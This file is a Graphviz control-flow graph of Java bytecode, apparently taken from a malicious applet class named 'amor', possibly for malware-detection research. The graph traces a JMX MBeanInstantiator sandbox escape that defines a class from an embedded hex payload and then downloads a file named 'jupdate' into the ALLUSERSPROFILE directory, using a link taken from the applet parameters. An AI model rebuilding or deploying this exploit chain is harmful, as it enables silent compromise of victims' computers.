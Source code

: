 digraph "" {
    "r0 := @this: amor"
    "load.r r0"
    "r0 := @this: amor"->"load.r r0";
    "staticget <amor: java.lang.String ByteArrayWithSecOff>"
    "load.r r0"->"staticget <amor: java.lang.String ByteArrayWithSecOff>";
    "virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>"
    "staticget <amor: java.lang.String ByteArrayWithSecOff>"->"virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>";
    "store.r r52"
    "virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>"->"store.r r52";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r r52"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "staticinvoke <pC: com.sun.jmx.mbeanserver.MBeanInstantiator gmbI(com.sun.jmx.mbeanserver.JmxMBeanServer)>"
    "checkcast"->"staticinvoke <pC: com.sun.jmx.mbeanserver.MBeanInstantiator gmbI(com.sun.jmx.mbeanserver.JmxMBeanServer)>";
    "staticinvoke <pC: com.sun.jmx.mbeanserver.MBeanInstantiator gmbI(com.sun.jmx.mbeanserver.JmxMBeanServer)>"->"dup1.r";
    "dup1.r"->"push null";
    "staticinvoke <pC: java.lang.Class fCls1(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"
    "push null"->"staticinvoke <pC: java.lang.Class fCls1(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>";
    "store.r r4"
    "staticinvoke <pC: java.lang.Class fCls1(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"->"store.r r4";
    "store.r r4"->"push null";
    "staticinvoke <pC: java.lang.Class fCls2(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"
    "push null"->"staticinvoke <pC: java.lang.Class fCls2(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>";
    "store.r r5"
    "staticinvoke <pC: java.lang.Class fCls2(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"->"store.r r5";
    "load.r r5"
    "store.r r5"->"load.r r5";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"
    "load.r r5"->"staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>";
    "store.r r6"
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "push 1"
    "load.r r6"->"push 1";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "push 1"->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <pC: java.lang.invoke.MethodHandle rHnd(java.lang.invoke.MethodHandles$Lookup,boolean,java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"staticinvoke <pC: java.lang.invoke.MethodHandle rHnd(java.lang.invoke.MethodHandles$Lookup,boolean,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "staticinvoke <pC: java.lang.invoke.MethodHandle rHnd(java.lang.invoke.MethodHandles$Lookup,boolean,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "store.r r9"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r r9";
    "push 3"
    "store.r r9"->"push 3";
    "push 3"->"newarray";
    "store.r r11"
    "newarray"->"store.r r11";
    "load.r r11"
    "store.r r11"->"load.r r11";
    "load.r r11"->"push 0";
    "push 0"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "load.r r11"->"push 1";
    "load.r r4"
    "push 1"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "push 2"
    "load.r r11"->"push 2";
    "load.r r9"
    "push 2"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r11"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r11";
    "store.r r11"->"load.r r6";
    "load.r r6"->"push 0";
    "staticinvoke <pC: java.lang.invoke.MethodType mtR()>"
    "push 0"->"staticinvoke <pC: java.lang.invoke.MethodType mtR()>";
    "staticinvoke <pC: java.lang.invoke.MethodType mtR()>"->"staticinvoke <pC: java.lang.invoke.MethodHandle rHnd(java.lang.invoke.MethodHandles$Lookup,boolean,java.lang.invoke.MethodType)>";
    "staticinvoke <pC: java.lang.invoke.MethodHandle rHnd(java.lang.invoke.MethodHandles$Lookup,boolean,java.lang.invoke.MethodType)>"->"store.r r9";
    "push class \"Ljava/lang/ClassLoader;\""
    "store.r r9"->"push class \"Ljava/lang/ClassLoader;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "store.r r14"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"store.r r14";
    "push 4"
    "store.r r14"->"push 4";
    "push 4"->"newarray";
    "store.r $r33"
    "newarray"->"store.r $r33";
    "load.r $r33"
    "store.r $r33"->"load.r $r33";
    "load.r $r33"->"push 0";
    "push 0"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r $r33";
    "load.r $r33"->"push 1";
    "push 1"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r $r33";
    "load.r $r33"->"push 2";
    "push \"createClassLoader\""
    "push 2"->"push \"createClassLoader\"";
    "push \"createClassLoader\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r33";
    "load.r $r33"->"push 3";
    "load.r r14"
    "push 3"->"load.r r14";
    "load.r r14"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"load.r $r33";
    "load.r $r33"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r4";
    "store.r r4"->"load.r r4";
    "load.r r4"->"push 0";
    "push 0"->"load.r r11";
    "load.r r11"->"arraywrite.r";
    "arraywrite.r"->"load.r r4";
    "load.r r4"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r4";
    "store.r r4"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/String;\""
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r11";
    "store.r r11"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r14";
    "store.r r14"->"load.r r14";
    "load.r r14"->"push 0";
    "push 0"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 1";
    "push 1"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 2";
    "push \"defineClass\""
    "push 2"->"push \"defineClass\"";
    "push \"defineClass\""->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 3";
    "push 3"->"load.r r11";
    "load.r r11"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"load.r r14";
    "load.r r14"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r5";
    "store.r r5"->"load.r r5";
    "load.r r5"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"push 2";
    "load.r r52"
    "push 2"->"load.r r52";
    "load.r r52"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "staticinvoke <pC: void nI(java.lang.Class)>"
    "checkcast"->"staticinvoke <pC: void nI(java.lang.Class)>";
    "new java.lang.StringBuilder"
    "staticinvoke <pC: void nI(java.lang.Class)>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "push \"SRESULLA\""
    "load.r r0"->"push \"SRESULLA\"";
    "virtualinvoke <amor: java.lang.String rver(java.lang.String)>"
    "push \"SRESULLA\""->"virtualinvoke <amor: java.lang.String rver(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "push \"ELIFORP\""
    "load.r r0"->"push \"ELIFORP\"";
    "push \"ELIFORP\""->"virtualinvoke <amor: java.lang.String rver(java.lang.String)>";
    "virtualinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r6";
    "store.r r6"->"push null";
    "push null"->"store.r r52";
    "store.r r52"->"push 0";
    "store.b r5"
    "push 0"->"store.b r5";
    "store.b r5"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"
    "push \"link\""->"virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>";
    "push \";\""
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"->"push \";\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \";\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r6";
    "load.r r6"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r9";
    "store.r r9"->"load.r r6";
    "load.r r6"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"store.r r4";
    "store.r r4"->"load.r r6";
    "load.r r6"->"push 2";
    "push 2"->"arrayread.r";
    "push \"0\""
    "arrayread.r"->"push \"0\"";
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"
    "push \"0\""->"virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>";
    "ifne load.r r0"
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"->"ifne load.r r0";
    "ifne load.r r0"->"push 1";
    "push 1"->"store.b r5";
    "store.b r5"->"load.r r0";
    "load.r r0"->"load.r r9";
    "load.r r9"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r52";
    "load.r r52"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\jupdate.\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\jupdate.\"";
    "push \"\\jupdate.\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r4";
    "load.b r5"
    "load.r r4"->"load.b r5";
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"
    "load.b r5"->"virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>";
    "goto return"
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"store.r r0";
    "store.b r5"->"load.r r0";
    "load.r r0"->"load.r r6";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"
    "load.r r6"->"specialinvoke <amor: java.lang.String _get__env(java.lang.String)>";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"->"store.r r52";
    "goto load.r r0"
    "store.r r52"->"goto load.r r0";
}
